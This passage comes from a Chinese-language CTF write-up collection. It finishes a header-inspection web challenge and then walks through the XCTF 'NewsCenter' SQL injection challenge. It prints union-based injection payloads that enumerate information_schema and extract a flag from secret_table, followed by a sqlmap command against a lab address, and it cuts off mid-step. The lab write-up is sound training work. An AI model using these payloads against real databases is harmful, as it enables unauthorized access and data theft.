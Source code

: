> 2. 打开火狐浏览器的开发者模式，选择网络模块，再次请求index.php,查看返回包，可以看到`location`参数被设置了1.php，并且得到flag。

**总结**：index.php的响应头如下
```http
Connection: Keep-Alive
Content-Length: 17
Content-Type: text/html; charset=UTF-8
Date: Sun, 23 Feb 2020 03:15:42 GMT
FLAG: flag{very_baby_web}
Keep-Alive: timeout=5, max=100
Location: 1.php
Server: Apache/2.4.38 (Debian)
X-Powered-By: PHP/7.2.21
```
页面自动跳转可能是因为设置了响应的`Location`头，线索可能在响应头里。2020.2.23.Sun

---

# 3. NewsCenter
**题目来源**： XCTF 4th-QCTF-2018  
**题目描述**：如题目环境报错，稍等片刻刷新即可  

**WP**:
> **目标**  
> 简单的SQL注入，读取`information_schema`元数据，然后读取flag。
sqlmap 也可解。
> 
> **环境**  
> windows
> 
> **工具**  
> sqlmap
> 
> **分析过程**
> 1. 初步探测,发现搜索框存在注入
>       ```sql
>       ' union select 1,2,3 #
>       ```
> 2. 获取数据库名，表名
>       ```sql
>       ' and 0 union select 1,TABLE_SCHEMA,TABLE_NAME from INFORMATION_SCHEMA.COLUMNS #
>       ```
> 3. 获取news表的字段名，数据类型
>       ```sql
>       ' and 0 union select 1,column_name,data_type from information_schema.columns where table_name='news'#
>       ```
> 4. 获取f1agfl4gher3字段名 数据类型
>       ```sql
>       ' and 0 union select 1,column_name,data_type from information_schema.columns where table_name='secret_table'#
>       ```
> 5. 得到flag
>       ```sql
>       ' and 0 union select 1,2,fl4g from secret_table #
>       ```
> 
> sqlmap版本
> 1. 获取注入点
>       ```bash
>       sqlmap -u http://192.168.100.161:53459 --data "search=df"
>       ```
> 2. 获取数据库信息
>       ```sh